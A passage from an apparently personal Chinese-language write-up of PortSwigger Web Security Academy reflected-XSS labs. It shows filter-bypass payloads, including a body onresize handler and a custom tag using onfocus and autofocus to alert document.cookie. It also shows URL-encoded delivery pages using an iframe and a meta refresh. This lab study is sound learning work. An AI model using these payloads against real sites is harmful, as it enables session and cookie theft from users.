 偶然發現 `Attribute is not allowed`


```html
<di onload="alert(1)"></di> => Attribute is not allowed
<di ONload="alert(1)"></di> => Attribute is not allowed
```

這題最後我實在找不到有啥 tag 跟 attribute 可以注入，於是參考了解答

我發現有 [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) 超讚的

其實如果把這邊列出的所有 tags 跟 attributes 都用腳本去測試的話就可以了，不過既然我們已經知道解法，重點只是要學習解題思路，所以最後的答案是


```html
<body onresize="print(1)"></body>
```

然後在 exploit-server 的 response body 輸入


```html
encodeURIComponent(`<body onresize="print()"></body>`)
// %3Cbody%20onresize%3D%22print()%22%3E%3C%2Fbody%3E
<iframe src="https://0a75006f032f73af803e268000fb00bd.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

## Lab: Reflected XSS into HTML context with all tags blocked except custom ones

| Dimension | Description                                                                                                        |
| --------- | ------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-between-html-tags                           |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked |

這題是有讓我學到新的概念，就是 custom tag 也可以觸發 `on` 事件，另外 [autofocus](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Global_attributes/autofocus) 是可以在所有 tag 上的屬性


```html
<di onfocus="alert(document.cookie)" tabindex="0" autofocus></di>
```

有了這個觀念，就可以把上面這坨塞到 querystring


```js
encodeURIComponent(`<di onfocus="alert(document.cookie)" tabindex=0 autofocus></di>`)
https://0a7c009b044d931980202bbf0062009c.web-security-academy.net/?search=%3Cdi%20onfocus%3D%22alert(document.cookie)%22%20tabindex%3D0%20autofocus%3E%3C%2Fdi%3E
```

之後在 exploit-server 的 response body 輸入

```html
<html>
  <head>
    <meta
      http-equiv="refresh"
      content="0; url=https://0a7c009b044d931980202bbf0062009c.web-security-academy.net/?search=%3Cdi%20onfocus%3D%22alert(document.cookie)%22%20tabindex%3D0%20autofocus%3E%3C%2Fdi%3E"
    />
  </head>
</html>
```
